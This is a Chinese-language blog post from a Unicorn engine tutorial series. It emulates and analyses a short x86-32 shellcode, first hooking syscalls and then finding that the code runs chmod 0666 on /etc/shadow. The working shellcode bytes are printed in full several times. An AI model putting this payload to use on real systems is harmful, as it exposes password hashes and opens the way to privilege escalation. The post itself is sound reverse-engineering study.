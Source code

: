 ```yaml
---
layout: post
title:  "Unicorn engine tutorial 練習 - part 3"
date:   2019-04-27 21:29:24 +0800
categories: Reversing
---
```


## 前言

上一篇把unicorn task 1 完成了，接下來就繼續造這篇[Unicorn Engine tutorial][Unicorn_Engine_tutorial]來解下一題摟~

## 練習 2

這次的題目是要分析一個shellcode:  
`shellcode = "\xe8\xff\xff\xff\xff\xc0\x5d\x6a\x05\x5b\x29\xdd\x83\xc5\x4e\x89\xe9\x6a\x02\x03\x0c\x24\x5b\x31\xd2\x66\xba\x12\x00\x8b\x39\xc1\xe7\x10\xc1\xef\x10\x81\xe9\xfe\xff\xff\xff\x8b\x45\x00\xc1\xe0\x10\xc1\xe8\x10\x89\xc3\x09\xfb\x21\xf8\xf7\xd0\x21\xd8\x66\x89\x45\x00\x83\xc5\x02\x4a\x85\xd2\x0f\x85\xcf\xff\xff\xff\xec\x37\x75\x5d\x7a\x05\x28\xed\x24\xed\x24\xed\x0b\x88\x7f\xeb\x50\x98\x38\xf9\x5c\x96\x2b\x96\x70\xfe\xc6\xff\xc6\xff\x9f\x32\x1f\x58\x1e\x00\xd3\x80"`

透過pwntool來反組譯  
```python
In [1]: from pwn import *

In [2]: shellcode = b"\xe8\xff\xff\xff\xff\xc0\x5d\x6a\x05\x5b\x29\xdd\x83\xc5\x4e\x89\xe9\x6a\x02\x03\x0c\x24\x5b\x31\xd2\x66\xba\x12\x00\x8b\x39\xc1\xe7\x10\xc1\xef\x10\x81\xe9\xfe\xff\xff\xff\x8b\x45\x00\xc1\
   ...: xe0\x10\xc1\xe8\x10\x89\xc3\x09\xfb\x21\xf8\xf7\xd0\x21\xd8\x66\x89\x45\x00\x83\xc5\x02\x4a\x85\xd2\x0f\x85\xcf\xff\xff\xff\xec\x37\x75\x5d\x7a\x05\x28\xed\x24\xed\x24\xed\x0b\x88\x7f\xeb\x50\x98\x38\xf9
   ...: \x5c\x96\x2b\x96\x70\xfe\xc6\xff\xc6\xff\x9f\x32\x1f\x58\x1e\x00\xd3\x80"

In [3]: print(disasm(shellcode))
```

```asm
   0:   e8 ff ff ff ff          call   0x4
   5:   c0 5d 6a 05             rcr    BYTE PTR [ebp+0x6a],0x5
   9:   5b                      pop    ebx
   a:   29 dd                   sub    ebp,ebx
   c:   83 c5 4e                add    ebp,0x4e
   f:   89 e9                   mov    ecx,ebp
  11:   6a 02                   push   0x2
  13:   03 0c 24                add    ecx,DWORD PTR [esp]
  16:   5b                      pop    ebx
  17:   31 d2                   xor    edx,edx
  19:   66 ba 12 00             mov    dx,0x12
  1d:   8b 39                   mov    edi,DWORD PTR [ecx]
  1f:   c1 e7 10                shl    edi,0x10
  22:   c1 ef 10                shr    edi,0x10
  25:   81 e9 fe ff ff ff       sub    ecx,0xfffffffe
  2b:   8b 45 00                mov    eax,DWORD PTR [ebp+0x0]
  2e:   c1 e0 10                shl    eax,0x10
  31:   c1 e8 10                shr    eax,0x10
  34:   89 c3                   mov    ebx,eax
  36:   09 fb                   or     ebx,edi
  38:   21 f8                   and    eax,edi
  3a:   f7 d0                   not    eax
  3c:   21 d8                   and    eax,ebx
  3e:   66 89 45 00             mov    WORD PTR [ebp+0x0],ax
  42:   83 c5 02                add    ebp,0x2
  45:   4a                      dec    edx
  46:   85 d2                   test   edx,edx
  48:   0f 85 cf ff ff ff       jne    0x1d
  4e:   ec                      in     al,dx
  4f:   37                      aaa
  50:   75 5d                   jne    0xaf
  52:   7a 05                   jp     0x59
  54:   28 ed                   sub    ch,ch
  56:   24 ed                   and    al,0xed
  58:   24 ed                   and    al,0xed
  5a:   0b 88 7f eb 50 98       or     ecx,DWORD PTR [eax-0x67af1481]
  60:   38 f9                   cmp    cl,bh
  62:   5c                      pop    esp
  63:   96                      xchg   esi,eax
  64:   2b 96 70 fe c6 ff       sub    edx,DWORD PTR [esi-0x390190]
  6a:   c6                      (bad)
  6b:   ff 9f 32 1f 58 1e       call   FWORD PTR [edi+0x1e581f32]
  71:   00 d3                   add    bl,dl
  73:   80                      .byte 0x80
```

### Hook

而因為作者有提到這句話`Note that the architecture is x86-32 now. List of syscalls numbers can be found here.`，猜測應該跟system call有關，所以就先來hook system call。  

```python
from unicorn import *
from unicorn.x86_const import *

shellcode = b"\xe8\xff\xff\xff\xff\xc0\x5d\x6a\x05\x5b\x29\xdd\x83\xc5\x4e\x89\xe9\x6a\x02\x03\x0c\x24\x5b\x31\xd2\x66\xba\x12\x00\x8b\x39\xc1\xe7\x10\xc1\xef\x10\x81\xe9\xfe\xff\xff\xff\x8b\x45\x00\xc1\xe0\x10\xc1\xe8\x10\x89\xc3\x09\xfb\x21\xf8\xf7\xd0\x21\xd8\x66\x89\x45\x00\x83\xc5\x02\x4a\x85\xd2\x0f\x85\xcf\xff\xff\xff\xec\x37\x75\x5d\x7a\x05\x28\xed\x24\xed\x24\xed\x0b\x88\x7f\xeb\x50\x98\x38\xf9\x5c\x96\x2b\x96\x70\xfe\xc6\xff\xc6\xff\x9f\x32\x1f\x58\x1e\x00\xd3\x80"

base_adr = 0x400000
stack_adr = 0x0
stack_size = 1024 * 1024

def hook_code(mu, address, size, user_data):  
    # print('>>> Tracing instruction at 0x%x, instruction size = 0x%x' %(address, size))
    op_code = mu.mem_read(address, size)
    if op_code == b"\xcd\x80":
        call_number = mu.reg_read(UC_X86_REG_EAX)
        param_1 = mu.reg_read(UC_X86_REG_EBX)
        param_2 = mu.reg_read(UC_X86_REG_ECX)
        param_3 = mu.reg_read(UC_X86_REG_EDX)
        param_4 = mu.reg_read(UC_X86_REG_ESI)
        param_5 = mu.reg_read(UC_X86_REG_EDI)

        print("[*] System call")
        print(f"Call Number: {call_number}\n" \
              f"Param 1    : {param_1}({hex(param_1)})\n" \
              f"Param 2    : {param_2}({hex(param_2)})\n" \
              f"Param 3    : {param_3}({hex(param_3)})\n" \
              f"Param 4    : {param_4}({hex(param_4)})\n" \
              f"Param 5    : {param_5}({hex(param_5)})\n")
        mu.reg_write(UC_X86_REG_EIP, address + size)

try:
    mu = Uc(UC_ARCH_X86, UC_MODE_32)
    mu.mem_map(base_adr, 1024 * 1024)
    mu.mem_map(stack_adr, stack_size)

    mu.mem_write(base_adr, shellcode)
    mu.reg_write(UC_X86_REG_ESP, stack_adr + stack_size)
    mu.hook_add(UC_HOOK_CODE, hook_code)

    mu.emu_start(base_adr, base_adr + len(shellcode))
except UcError as e:
    print("ERROR: %s" % e)
```

output:  

```text
$ python task2_solve.py
[*] System call
Call Number: 15
Param 1    : 4194392(0x400058)
Param 2    : 438(0x1b6)
Param 3    : 0(0x0)
Param 4    : 0(0x0)
Param 5    : 32979(0x80d3)

[*] System call
Call Number: 1
Param 1    : 4194392(0x400058)
Param 2    : 438(0x1b6)
Param 3    : 0(0x0)
Param 4    : 0(0x0)
Param 5    : 32979(0x80d3)
```

### 分析

分析system call function ([system_call_table][system_call_table]):  

Call number 15: `sys_chmod`  
sys_chmod(const char __user *filename, mode_t mode)  

Call number 1: `sys_exit`  

分析完後:  

```python
from unicorn import *
from unicorn.x86_const import *

shellcode = b"\xe8\xff\xff\xff\xff\xc0\x5d\x6a\x05\x5b\x29\xdd\x83\xc5\x4e\x89\xe9\x6a\x02\x03\x0c\x24\x5b\x31\xd2\x66\xba\x12\x00\x8b\x39\xc1\xe7\x10\xc1\xef\x10\x81\xe9\xfe\xff\xff\xff\x8b\x45\x00\xc1\xe0\x10\xc1\xe8\x10\x89\xc3\x09\xfb\x21\xf8\xf7\xd0\x21\xd8\x66\x89\x45\x00\x83\xc5\x02\x4a\x85\xd2\x0f\x85\xcf\xff\xff\xff\xec\x37\x75\x5d\x7a\x05\x28\xed\x24\xed\x24\xed\x0b\x88\x7f\xeb\x50\x98\x38\xf9\x5c\x96\x2b\x96\x70\xfe\xc6\xff\xc6\xff\x9f\x32\x1f\x58\x1e\x00\xd3\x80"

base_adr = 0x400000
stack_adr = 0x0
stack_size = 1024 * 1024

dict_system_call = {
    1: "sys_exit",
    15: "sys_chmod", 
}

def hook_code(mu, address, size, user_data):  
    # print('>>> Tracing instruction at 0x%x, instruction size = 0x%x' %(address, size))
    op_code = mu.mem_read(address, size)
    if op_code == b"\xcd\x80":
        call_number = mu.reg_read(UC_X86_REG_EAX)
        param_1 = mu.reg_read(UC_X86_REG_EBX)
        param_2 = mu.reg_read(UC_X86_REG_ECX)
        param_3 = mu.reg_read(UC_X86_REG_EDX)
        param_4 = mu.reg_read(UC_X86_REG_ESI)
        param_5 = mu.reg_read(UC_X86_REG_EDI)
        system_call_name = dict_system_call[call_number]

        print("[*] System call")
        print(f"Call Number: {call_number}({system_call_name})")

        if system_call_name == "sys_chmod":
            file = mu.mem_read(param_1, 64).split(b"\x00")[0]
            print(f"Param 1    : {param_1}({hex(param_1)}) -> {file}")
            print(f"Param 2    : {param_2}({hex(param_2)}) -> {oct(param_2)}")
        else:
            print(f"Param 1    : {param_1}({hex(param_1)})")
        print("")
        mu.reg_write(UC_X86_REG_EIP, address + size)

try:
    mu = Uc(UC_ARCH_X86, UC_MODE_32)
    mu.mem_map(base_adr, 1024 * 1024)
    mu.mem_map(stack_adr, stack_size)

    mu.mem_write(base_adr, shellcode)
    mu.reg_write(UC_X86_REG_ESP, stack_adr + stack_size)
    mu.hook_add(UC_HOOK_CODE, hook_code)

    mu.emu_start(base_adr, base_adr + len(shellcode))
except UcError as e:
    print("ERROR: %s" % e)
```

output:  

```text
[*] System call
Call Number: 15(sys_chmod)
Param 1    : 4194392(0x400058) -> bytearray(b'/etc/shadow')
Param 2    : 438(0x1b6) -> 0o666

[*] System call
Call Number: 1(sys_exit)
Param 1    : 4194392(0x400058)
```

應該就是一個會去將`/etc/shadow`權限改成666的shellcode。  

練習2就完成瞜~  

[Unicorn_Engine_tutorial]:http://eternal.red/2018/unicorn-engine-tutorial/  
[system_call_table]:https://syscalls.kernelgrok.com/  